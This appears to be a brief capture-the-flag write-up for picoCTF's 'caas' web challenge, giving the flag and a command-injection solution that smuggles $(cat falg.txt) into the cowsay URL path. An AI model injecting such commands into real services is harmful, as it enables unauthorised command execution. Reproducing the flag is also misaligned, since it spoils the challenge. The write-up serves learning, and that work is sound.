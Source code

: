 # caas

Author: BrownieInMotion

Category: Web Exploitation

Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

## Description

Now presenting cowsay as a service

## Difficulty

Medium

## Solution

1. Visit the website

2. Check the source code

3. Open the js file and understand the async function

   `${window.origin}/cowsay/{message}`; I thought this code can do command injection

   just add $(cmd)

   $ {window.origin}/cowsay/$(cmd)`;

![POC 1](image.png)

4. Then cat falg.txt -> `https://caas.mars.picoctf.net/cowsay/$(cat%20falg.txt)`

![POC 2](image-1.png)
